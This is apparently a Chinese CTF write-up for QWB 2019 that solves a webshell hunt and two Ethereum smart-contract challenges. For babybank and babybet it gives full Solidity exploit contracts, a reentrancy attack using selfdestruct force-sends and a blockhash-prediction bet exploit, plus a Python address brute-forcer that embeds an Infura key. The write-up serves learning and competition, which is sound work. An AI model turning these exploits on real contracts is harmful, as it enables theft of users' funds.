 # QWB 2019

### 高明的黑客

之前因为我自己写过phpWebshell扫描器，直接拿过来魔改了几行代码就能直接扫出来了。    

![webshell_scan_stat](webshell_scan_result.png)

![webshell_scan_log_grep](scan_log_grep.png)

然后翻扫描log找到306行有问题：

![webshell_log](scan_log.png)

看了下就一个很裸的system函数调用，没什么好说了

![webshell_source](webshell_source.png)


### babybank

然后是两道baby以太坊智能合约题，opcode直接在线decompile一下（ https://ethervm.io/ ，现在竟有这么好用的工具），再根据solidity mapping的storage的空间布局很容易就能分析出代码逻辑，比ethernaut的题还要简单。   

这题的主要思路就是经典的重入攻击 ，外加`selfdestruct`可以送钱和预测合约地址这两个甜点。    


```solidity
pragma solidity ^0.4.23;

contract babybank {
    mapping(address => uint) public balance;
    mapping(address => uint) public level;
    address owner;
    uint secret;
    
    //Don't leak your teamtoken plaintext!!! md5(teamtoken).hexdigest() is enough.
    //Gmail is ok. 163 and qq may have some problems.
    event sendflag(string md5ofteamtoken,string b64email); 
    
    constructor()public{
        owner = msg.sender;
    }
    
    //pay for flag
    function payforflag(string md5ofteamtoken,string b64email) public{
        require(balance[msg.sender] >= 10000000000);
        balance[msg.sender]=0;
        owner.transfer(address(this).balance);
        emit sendflag(md5ofteamtoken,b64email);
    }
    
    modifier onlyOwner(){
        require(msg.sender == owner);
        _;
    }
	
	function profit() public;/* {
		if(level[msg.sender]) throw;
		if(msg.sender & 0xffff != 0xb1b1) throw;
		balance[msg.sender] += 1;
		level[msg.sender] += 1;
	}*/
	
	function guess(uint arg0);/* {
		if (arg0 != secret) throw;
		if (level[msg.sender] != 1) throw;
		balance[msg.sender] += 1;
		level[msg.sender] += 1;
	}*/
	
	function transfer(address arg0, uint arg1);/* {
		if (arg1 > balance[msg.sender])) throw;
		if (arg1 != 2) throw;
		if (level[msg.sender] != 2) throw;
		balance[msg.sender] = 0;
		balance[arg0] = arg1;
	}*/
	
	function withdraw(uint arg0);/* {
		if (arg0 != 0x02) throw;
		if (arg0 > balance[msg.sender]) throw;
		
		mem[0x80] = msg.sender.call.gas(msg.gas).value(arg0 * 1 ether)(mem[0x80]);
		balance[msg.sender] -= arg0;
	}*/
}

contract ForceSendValue {
    function mySend() payable {
        babybank f = babybank(0xd630cb8c3bbfd38d1880b8256ee06d168ee3859c);
        selfdestruct(f);
    }
}

contract exploit {
    babybank f = babybank(0xd630cb8c3bbfd38d1880b8256ee06d168ee3859c);
    address owner;
    bool hasBeenPaid = false;
    
    constructor() {
        owner = msg.sender;
        f.profit();
        f.guess(0x3fde42988fa35); // web3.eth.getStorageAt("0xd630cb8c3bbfd38d1880b8256ee06d168ee3859c", 3, console.log)
    }
    
    function() public payable {
        if (!hasBeenPaid) {
            hasBeenPaid = true;
            f.withdraw.gas(msg.gas)(2);
        }
    }
    
    function exp() payable {
        ForceSendValue _f = new ForceSendValue();
        _f.mySend.value(400000000000000).gas(msg.gas)();
        f.withdraw.gas(msg.gas)(2);
    }
    
    function submit() {
        string memory tok = "<TOK>";
        string memory email = "<EMAIL>";
        f.payforflag(tok, email);
        selfdestruct(owner);
    }
}
```

因为这题需要用到智能合约的fallback函数`msg.sender`只能是智能合约，`profit()`里要`msg.sender`地址结尾是`b1b1`，这就要求我们要能预测账号地址生成的合约地址，利用下面的脚本可以生成账号地址使nonce=0的交易的智能合约部署地址结尾符合要求。

```python
from web3 import Web3, HTTPProvider
import rlp
from rlp.utils import decode_hex, encode_hex, ascii_chr, str_to_bytes
w3 = Web3(HTTPProvider('https://ropsten.infura.io/SdO4U3ydQdgK3D3eNE2Y'))
w3.eth.enable_unaudited_features()

def normalize_address(x, allow_blank=False):
    if allow_blank and x == '':
        return ''
    if len(x) in (42, 50) and x[:2] == '0x':
        x = x[2:]
    if len(x) in (40, 48):
        x = decode_hex(x)
    if len(x) == 24:
        assert len(x) == 24 and sha3(x[:20])[:4] == x[-4:]
        x = x[:20]
    if len(x) != 20:
        raise Exception("Invalid address format: %r" % x)
    return x

def get_deployed_contract_addr(acc_address, nonce):
	return Web3.toHex(Web3.sha3(rlp.encode([normalize_address(acc_address), nonce]))[12:])[2:]

acc=w3.eth.account.create()
while not get_deployed_contract_addr(acc.address, 0).endswith('b1b1'): 
	acc = w3.eth.account.create()
print(acc.privateKey.__repr__())
```

另外这题回调fallback函数的时候需要送钱，又没有payable函数，因此`exploit::exp()`中利用合约`selfdestruct`的强制送钱机制先强行氪金一波。

### babybet

嗯其实这题比babybank还简单，准备工作也少了很多。分析一下字典没名字的函数是个transfer函数就可以汇集钱了，直接raw形式用签名哈希调用就ok了。我要吐槽一下这个非得100万，gas limit不够用非要手动部署十几次`exploit`合约......     

直接上exp吧也没什么好说的，就利用智能合约动态获取链上公开信息来破解模拟的几年前的菠菜代码而已。

```solidity
pragma solidity ^0.4.23;

contract babybet {
    mapping(address => uint) public balance;
    mapping(address => uint) public status;
    address owner;
    
    //Don't leak your teamtoken plaintext!!! md5(teamtoken).hexdigest() is enough.
    //Gmail is ok. 163 and qq may have some problems.
    event sendflag(string md5ofteamtoken,string b64email); 
    
    constructor()public{
        owner = msg.sender;
        balance[msg.sender]=1000000;
    }

    //pay for flag
    function payforflag(string md5ofteamtoken,string b64email) public{
        require(balance[msg.sender] >= 1000000);
        if (msg.sender!=owner){
        balance[msg.sender]=0;}
        owner.transfer(address(this).balance);
        emit sendflag(md5ofteamtoken,b64email);
    }
    function profit();
    function bet(uint arg0);
	
	//function func_048F(address arg0, uint arg1); 0xf0d25268
}


contract exploit {
    constructor() {
        address owner = <OWNER>;
        for (uint i=0; i<50; i++) {
            address worker = new Worker();
        }
        selfdestruct(owner);
    }    
}

contract Worker {
    constructor() {
        bytes4 sign = 0xf0d25268;
        address owner = <OWNER>;
        babybet f = babybet(0x5d1beefd4de611caff204e1a318039324575599a);
        uint award = 1000;
        uint _owner = uint(owner);
        f.profit();
        uint b = uint(blockhash(block.number - 1)) % 3;
        f.bet(b);
        f.call(sign, _owner, award);
        selfdestruct(owner);
    }
}

```


